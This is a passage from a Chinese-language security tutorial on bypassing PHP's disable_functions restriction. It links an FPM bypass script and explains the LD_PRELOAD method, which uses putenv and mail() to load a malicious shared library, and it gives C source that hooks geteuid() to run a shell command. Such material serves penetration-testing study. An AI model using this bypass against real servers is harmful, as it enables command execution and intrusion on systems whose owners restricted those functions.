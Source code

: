 disable_classes和disable_functions是无法用php_admin_value直接覆盖的

### 利用脚本

```php
https://gist.githubusercontent.com/Explorersss/452ba2ed228dee841ac474b5d96f1581/raw/dc35576e0a4448b33da381fd2980d586aedc4e01/bypass_disable_function_by_fpm.php
```







## LD_PRELOAD绕过

### send_mail



这里我们先来看一下原理，首先什么是LD_PRELOAD？

google给出如下定义

```
LD_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.
```

即LD_PRELOAD这个环境变量指定路径的文件，会在其他文件被调用前，最先被调用

而putenv可以设置环境变量

```php
putenv ( string $setting ) : bool
```

添加 setting 到服务器环境变量。 环境变量仅存活于当前请求期间。 在请求结束时环境会恢复到初始状态。

那么我们可以进行一下骚操作

>1.制作一个恶意shared libraries
>2.使用putenv设置LD_PRELOAD为恶意文件路径
>3.使用某个php函数，触发specific shared library

#### 利用函数

`putenv,errorlog,mail`

#### 如何制作shared libraries

选择要替换的函数我们这里选取geteuid()

理由是php的mail()函数会调用系统的sendmail命令而sendmail命令会调用getuid()这个函数,所以我们确定目标为geteuid函数

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
	system("ls > result.txt");
	}
    int  geteuid() {
    if (getenv("LD_PRELOAD") == NULL) 
    { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
  	}
```
